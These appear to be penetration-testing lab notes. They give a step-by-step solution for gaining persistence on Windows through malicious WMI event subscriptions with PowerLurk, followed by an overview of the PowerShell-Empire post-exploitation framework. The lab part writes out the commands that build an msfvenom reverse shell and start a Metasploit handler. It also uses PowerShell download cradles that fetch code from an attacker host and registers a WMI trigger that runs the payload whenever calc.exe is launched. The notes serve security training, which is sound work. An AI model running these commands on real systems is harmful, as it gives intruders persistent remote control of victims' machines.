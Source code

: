 #### PowerLurk

[**PowerLurk**](https://github.com/Sw4mpf0x/PowerLurk) is a tool to create persistence via malicious WMI Event Subscriptions.

### Leveraging WMI for Persistence (with PowerLurk) - Lab

#### Lab Solution

`msfvenom -p windows/x64/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f exe -o /root/Desktop/reverse_tcp64.exe`, `file /root/Desktop/reverse_tcp64.exe`.
`wget -O /root/Desktop/PowerLurk.ps1 https://raw.githubusercontent.com/Sw4mpf0x/PowerLurk/master/PowerLurk.ps1`.
`cd /root/Desktop`, `python3 http.server 80`.

`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LHOST <AttackerIP>`, `set LPORT <AttackerPort>`, `exploit -j`.

`IEX (New-Object Net.WebClient).DownloadFile('http://<AttackerIP>/reverse_tcp64.exe', 'C:\programdata\reverse_tcp64.exe')`: to download the reverse tcp payload via the PowerShell download cradle.

`IEX (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/PowerLurk.ps1'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\reverse_tcp64.exe" -Trigger ProcessStart -ProcessName calc.exe`: this trigger will generate our malicious WMI event (named `CalcExec`) every time the user launches the "calc.exe" program, executing the reverse tcp payload on the target machine.

`IEX (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/PowerLurk.ps1'); Get-Wmi Event -Name CalcExec`: to view the malicious WMI event just created.

`IEX (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/PowerLurk.ps1'); Get-Wmi Event-Name CalcExec | Remove-WmiObject`: to remove the malicious WMI event just created.

### PowerShell-Empire for Persistence - Theory

**PowerShell-Empire** (alias Empire) is a pure PowerShell exploitation/post-exploitation framework built on cryptographically secure communications and flexible architecture. Empire enables the execution of PowerShell *stagers* without requiring powershell.exe, offers swiftly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and employs adaptable communications to evade network detection, all encapsulated within a usability-focused framework.

PowerShell-Empire comprises several core components, including:
- *Server*. This central component of the framework manages communication with *stagers* (also referred to as implants or payloads) executed on target systems. The server can operate on a central control machine and utilizes *listeners* to accept incoming connections from stagers.
- *Stager*. Stagers are small PowerShell scripts executed on target systems. Once executed, stagers connect to the PowerShell Empire *server* to receive instructions and transmit information. Stagers can run on compromised Windows computers or on any system capable of executing PowerShell scripts.

Here's a general overview of the process:
1. Setup. Initially, the PowerShell Empire server needs configuration. This involves configuring listeners (IP, port, launcher string, encryption key, etc.) to specify how the server will accept incoming connections and potentially customizing modules and payloads.
2. *Stager Creation*. Subsequently, a payload or stager is created to execute on target systems. This can be accomplished using one of the numerous available modules in PowerShell Empire or customizing a payload to suit specific requirements.
3. *Stager Deployment*. Once the stager is created, it must be deployed on target systems. This can be achieved through various techniques such as social engineering, remote code injection, or exploiting vulnerabilities.
4. *Stager Connection*. After execution on target systems, the stager establishes a connection to the PowerShell Empire server. This enables the attacker to issue commands and receive information from the agent.
5. *Command Execution*. Upon establishing a connection with the stager, a wide range of commands can be executed to perform tasks such as gathering information, escalating privileges, and maintaining persistence.
